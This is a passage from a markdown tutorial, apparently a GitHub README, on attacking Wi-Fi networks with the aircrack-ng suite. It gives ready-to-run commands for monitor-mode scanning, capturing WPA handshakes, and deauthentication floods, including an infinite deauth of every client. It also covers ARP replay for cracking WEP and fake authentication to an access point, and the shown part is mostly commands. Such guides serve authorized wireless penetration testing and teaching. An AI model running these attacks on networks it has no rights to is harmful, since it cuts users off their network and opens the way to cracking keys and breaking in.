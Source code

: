 To stop monitor mode:
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager start   # if you killed it earlier
```

---

## Passive reconnaissance — discover networks & clients
Use `airodump-ng` to scan for APs and clients and capture handshakes.
```bash
sudo airodump-ng wlan0mon
```
Useful options:
- `--band a` / `--band b` / `--band g` / `--band abg` — restrict scan band.
- `--write <fileprefix>` — write capture to files (`.cap`, `.csv`, `.kismet.csv`).
- `--channel <ch>` — focus on a specific channel to capture handshakes more efficiently.

Example: capture on channel 6 and write output:
```bash
sudo airodump-ng --channel 6 --write capture wlan0mon
```
To capture one specific AP and its clients (recommended):
```bash
sudo airodump-ng --bssid <AP_BSSID> --channel <CH> --write handshakes wlan0mon
```

Monitor the airodump-ng output for `WPA handshake:` indicator in the top right — that signals a captured 4‑way handshake.

---

## Active techniques — force handshakes faster
### deauthentication attack (most common)
Send deauth frames to a client to force re-authentication (handshake capture):
```bash
sudo aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```
- `-a` = AP BSSID, `-c` = client MAC. Omitting `-c` deauths all clients.
- Increase count or run continuously (`--deauth 0` for infinite, Ctrl+C to stop).

### ARP replay (WEP only) — speeds WEP key capture
```bash
sudo aireplay-ng -3 -b <AP_BSSID> -h <YOUR_MAC> wlan0mon
```
This injects ARP packets to generate traffic for WEP IV collection.

### Fake auth (when needed)
```bash
sudo aireplay-ng -1 0 -a <AP_BSSID> -h <YOUR_MAC> wlan0mon
```
Use to associate with AP before further attacks (older APs or when required).

---